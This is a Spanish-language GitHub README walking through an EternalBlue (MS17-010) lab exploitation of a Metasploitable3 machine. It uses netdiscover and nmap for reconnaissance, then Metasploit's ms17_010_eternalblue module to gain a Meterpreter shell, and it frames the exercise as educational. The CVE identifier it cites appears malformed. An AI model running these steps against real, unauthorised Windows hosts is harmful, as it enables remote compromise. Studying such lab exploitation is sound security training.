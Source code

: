 
# 🚀 EternalBlue - Exploit 



## 📚 Descripción
En este ejercicio práctico, explotaremos la vulnerabilidad **EternalBlue (MS17-010)**, una falla crítica en el protocolo **SMBv1** que permite la **ejecución remota de código** en sistemas Windows no parcheados.  

- **Máquina objetivo:** Metasploitable3
- **Objetivo:** Comprender la explotación de vulnerabilidades SMB y demostrar una explotación controlada en un entorno de pruebas.  


## ⛔ Advertencia
Este repositorio y su contenido han sido creados **exclusivamente con fines educativos, académicos y de investigación en ciberseguridad.**

❌ **Prohibido el uso malintencionado:** El uso de este código para atacar sistemas sin la autorización explícita de sus propietarios **está estrictamente prohibido** y puede violar leyes locales, nacionales e internacionales.

✅ **Entornos controlados:** Se recomienda ejecutar este exploit **únicamente en entornos de pruebas controlados y sistemas que poseas o cuentes con permiso explícito para auditar.**

⚖️ **Responsabilidad:** El autor de este repositorio **no se hace responsable** de cualquier daño, pérdida o acción legal derivada del uso inapropiado de este código.

**Al utilizar este repositorio, aceptas y comprendes estas condiciones.** Si no estás de acuerdo, por favor, no clones ni utilices este código.

**La ciberseguridad es una responsabilidad compartida. Úsalo con ética y respeto. 🚀**

## 🔨 Requisitos
Antes de comenzar, asegúrate de tener lo siguiente:
- **Sistema operativo:** Kali Linux u otra distribución enfocada en seguridad.
- **Máquina virtual vulnerable:** Metasploitable3


## 🎯 Uso
El primer paso es descubrir la dirección IP de la máuina vulnerable en tu red. Para ello, utilitzaremos **netdiscover**

````terminal
sudo netdiscover -i eth0 <RANGO_DE_RED>
````
<p align="center">
  <img src="https://github.com/ElChe1/Explotation-Lab/blob/main/EternalBlue-Exploit/media/img/netdiscover_1.png" alt="Netdiscover Red" style="border-radius: 10px;">
</p>

<br>


Una vez identificada la IP de la máquina víctima, el siguiente paso es escanear los puertos abiertos.
Para ello, utilizaremos **nmap**:

````terminal
sudo nmap -sT <IP_VICTIMA>
````

<p align="center">
  <img src="https://raw.githubusercontent.com/ElChe1/EternalBlue-Exploit/media/img/nmap_1.png" alt="Nmap 1" style="border-radius: 10px;">
</p>

<br>

En este paso, afinaremos la búsqueda de vulnerabilidades presentes en la máquina víctima para determinar si es explotable mediante **EternalBlue (MS17-010)**.

````terminal
sudo nmap -sV --script vuln <IP_VICTIMA>
````

### Resultado esperado 
Nmap mostrará una lista de servicios con sus respectivas versiones y posibles vulnerabilidades.
Si la máquina es vulnerable a EternalBlue, aparecerá algo similar a: **MS17-010** o **CVE-2017-01043**

<p align="center">
  <img src="https://raw.githubusercontent.com/ElChe1/EternalBlue-Exploit/media/img/nmap_2.png" alt="nmap 2" style="border-radius: 10px;">
</p>

<br>

Una vez que hemos identificado que la máquina víctima es vulnerable a **EternalBlue (MS17-010)**, el siguiente paso es utilizar **Metasploit** para explotar la vulnerabilidad.

````terminal
sudo msfconsole
````
<p align="center">
  <img src="https://raw.githubusercontent.com/ElChe1/EternalBlue-Exploit/media/img/msfconsole.png" alt="msfconsole" style="border-radius: 10px;">
</p>

<br>

Para explotar la vulnerabilidad **MS17-010 (EternalBlue)** en la máquina víctima, necesitamos buscar el exploit adecuado dentro de **Metasploit**.

````terminal
search ms17-010
````

<p align="center">
  <img src="https://raw.githubusercontent.com/ElChe1/EternalBlue-Exploit/media/img/searchMSF.png" alt="searchMSF" style="border-radius: 10px;">
</p>

<br>

Una vez que hemos encontrado el exploit para la vulnerabilidad **MS17-010 (EternalBlue)** en Metasploit, es útil obtener más información sobre cómo utilizarlo adecuadamente.

````terminal
info exploit/windows/smb/ms17_010_eternalblue
````
### 📃 Nota importante
Asegúrate de revisar todas las opciones disponibles y configurarlas correctamente antes de ejecutar el exploit.

<p align="center">
  <img src="https://raw.githubusercontent.com/ElChe1/EternalBlue-Exploit/media/img/infoMSF.png" alt="infoMSF" style="border-radius: 10px;">
</p>

<br>

Ahora que ya conocemos el exploit adecuado para la vulnerabilidad **MS17-010 (EternalBlue)**, el siguiente paso es cargar el exploit en la consola de Metasploit para configurarlo y ejecutarlo.

````terminal
use exploit/windows/smb/ms17_010_eternalblue
````

<p align="center">
  <img src="https://raw.githubusercontent.com/ElChe1/EternalBlue-Exploit/media/img/useEB.png" alt="useEB" style="border-radius: 10px;">
</p>

<br>

Una vez cargado el exploit de **MS17-010 (EternalBlue)** en Metasploit, el siguiente paso es revisar y configurar correctamente todas las opciones necesarias antes de ejecutar el exploit.

````terminal
show options
````

<p align="center">
  <img src="https://raw.githubusercontent.com/ElChe1/EternalBlue-Exploit/media/img/showoptions.png" alt="showoptions" style="border-radius: 10px;">
</p>

<br>

Una vez que has mostrado las opciones del exploit y has visto los parámetros disponibles, el siguiente paso es **configurar la IP de la máquina víctima (remote host)** para que Metasploit sepa a qué máquina debe intentar explotar.

````terminal
set RHOSTS <IP_VICTIMA>
````
<p align="center">
  <img src="https://raw.githubusercontent.com/ElChe1/EternalBlue-Exploit/media/img/rhosts.png" alt="rhosts" style="border-radius: 10px;">
</p>

<br>

### 📃 Nota Importante:
Asegúrate de que la IP de la víctima es la correcta y que la máquina está accesible desde tu red.

Ahora que hemos configurado todos los parámetros necesarios, estamos listos para ejecutar el exploit y verificar si demos obtener acceso al sistema víctima mediante **Meterpreter**.

````terminal
run
````
<p align="center">
  <img src="https://raw.githubusercontent.com/ElChe1/EternalBlue-Exploit/media/img/run.png" alt="run" style="border-radius: 10px;">
</p>

<br>

## 📕 Conclusión
Este proyecto ha demostrado cómo explotar la vulnerabilidad **MS17-010 (EternalBlue)** en un entorno controlado y autorizado, utilizando herramientas como **Nmap** y **Metasploit** para realizar pruebas de penetración en máquinas vulnerables. A través de este ejercicio, se ha aprendido a identificar, configurar y ejecutar un exploit de **EternalBlue**, obteniendo acceso a la máquina víctima mediante el payload **Meterpreter**.

Es importante recordar que este tipo de actividades deben realizarse siempre en entornos seguros y con permiso explícito, siguiendo las mejores prácticas de ciberseguridad. La explotación de vulnerabilidades como **EternalBlue** puede tener graves consecuencias si se realiza de forma malintencionada o ilegal, por lo que siempre debe llevarse a cabo con fines educativos y de investigación.

Este repositorio tiene como objetivo servir como referencia para futuros estudios y experimentos relacionados con la seguridad informática.

